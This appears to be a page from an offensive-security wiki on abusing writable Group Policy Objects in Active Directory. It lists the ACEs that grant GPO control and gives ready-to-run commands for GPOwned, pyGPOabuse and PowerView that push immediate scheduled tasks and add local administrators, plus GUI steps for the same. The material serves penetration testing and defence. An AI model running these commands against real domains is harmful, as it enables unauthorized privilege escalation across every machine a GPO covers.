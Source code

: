 ## Theory
"Group Policy" is a management feature of Active Directory. It allows admins to manage computers and users. Group Policy Objetcs (GPOs) make up Group Policies. GPOs are associated to AD objects (sites, domains, organizational units (OUs)).
!!! info
    Group Policies can include security options, registry keys, software installation, and scripts for startup and shutdown and domain members refresh group policy settings every 90 minutes by default (5 minutes for Domain Controllers). This means that Group Policy enforces configured settings on the targeted computer.

In certain scenarios, an attacker can gain control over GPOs. Some ACEs can give that control:

- `WriteProperty` to the `GPC-File-Sys-Path` property of a GPO (specific GUID specified)
- `GenericAll, GenericWrite, WriteProperty` to any property (no GUID specified)
- `WriteDacl, WriteOwner`
## Exploit
GPO-based attacks can be conducted with [New-GPOImmediateTask](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) (PowerView module), [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) (C#), or [pyGPOabuse](https://github.com/Hackndo/pyGPOAbuse) (python) and [GPOwned](https://github.com/X-C3LL/GPOwned) (Python) for UNIX-like systems.
### Immediate Scheduled Task
An attacker can edit the GPO to add a scheduled task that runs instantly and removes itself after, every time Group Policy refreshes. The attacker can then gain access to all AD objects this GPO applies to.
=== "UNIX-like"
    From UNIX-like systems, a new immediate scheduled task can be created with GPOwned (Python) or added to an existing GPO with pyGPOabuse (Python)
    ```bash
    # GPOwned (buggy, not to use in production) - execute something (e.g. calc.exe)
    GPOwned -u 'user' -p 'password' -d 'domain' -dc-ip 'domaincontroller' -gpoimmtask -name '{12345677-ABCD-9876-ABCD-123456789012}' -author 'DOMAIN\Administrator' -taskname 'Some name' -taskdescription 'Some description' -dstpath 'c:\windows\system32\calc.exe'

    # pyGPOabuse, update an existing GPO - add a local admin
    pygpoabuse 'domain'/'user':'password' -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
    ```
=== "Windows"
    From Windows, a new immediate scheduled task can be created with Powerview's New-GPOImmediateTask module (Powershell).
    ```bash
    New-GPOImmediateTask -Verbose -Force -TaskName 'TaskName' -GPODisplayName 'GPODisplayName' -Command cmd -CommandArguments "/c net localgroup administrators shutdown /add"
    ```
    After a successful execution, the scheduled task can be removed with the following command.
    ```bash
    New-GPOImmediateTask -Force -Remove -GPODisplayName 'GPODisplayName'
    ```
### Manually adding a user to the local admin group
An attacker can also manually add a user to the local administrator group. This can be achieved with the Group Policy Management Editor.

**Step 1: create the user**

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Create > User name:`

**Step 2: add the user to the local admin group**

`Windows search bar > Group Policy Management Editor > Computer configuration > Preferences > Control Panel Settings > Local Users and Groups > Right click on it > New > Local User > Action: Update > Group name : > Members: Add:`

**Force Group Policy update**

`Domain members refresh group policy settings every 90 minutes by default but it can locally be forced with the following command: gpupdate /force.`

### Other exploitation paths

In addition to the aforementioned exploitation paths, GPOs can be abused in other ways: leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.